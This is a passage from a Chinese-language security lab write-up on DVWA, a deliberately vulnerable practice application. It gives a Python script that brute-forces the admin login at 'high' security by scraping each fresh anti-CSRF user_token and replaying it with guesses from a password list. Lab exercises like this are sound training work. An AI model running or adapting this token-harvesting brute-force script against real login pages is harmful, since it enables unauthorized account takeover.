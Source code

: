 注:在最新版本中,由于 hard 难度的源代码修改,无法直接使用 BeautifulSoup 匹配 user_token 值,在此给出我略微修改的版本
```python
import requests, re
from bs4 import BeautifulSoup

requrl='http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/'
header={
        'Host': '<改成你自己机器IP!!!>',
		'Cache-Control': 'max-age=0',
		'If-None-Match': "307-52156c6a290c0",
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',
		'Accept': '*/*',
		'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',
		'Accept-Encoding': 'gzip, deflate, sdch',
		'Accept-Language': 'zh-CN,zh;q=0.8',
		'Cookie': 'security=high; PHPSESSID=vlalfd2e2rbtptnd8pqqn646g4'
        }

def get_token(requrl,header):
    req = requests.get(url=requrl,headers=header)
    page = req.text
    soup = BeautifulSoup(page,"html.parser")
    value = soup.select("input[name=user_token]")

    key=str(value)
    p1 = r"(?<=value=\").+?(?=\")"
    pattern1 = re.compile(p1)
    matcher1 = re.search(pattern1,key)

    user_token= matcher1.group(0)
    a=str(user_token)
    print (req.status_code,len(page))
    return a

user_token = get_token(requrl,header)
i=0

for key in open("password.txt"):

    requrl = "http://<改成你自己机器IP!!!>/dvwa/vulnerabilities/brute/"+"?username=admin&password="+key.strip()+"&Login=Login&user_token="+user_token

    i = i+1
    print (i,'admin',key.strip(), end=" " )
    user_token = get_token(requrl,header)
    if (i == 100):
        break
```
![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa11.png)
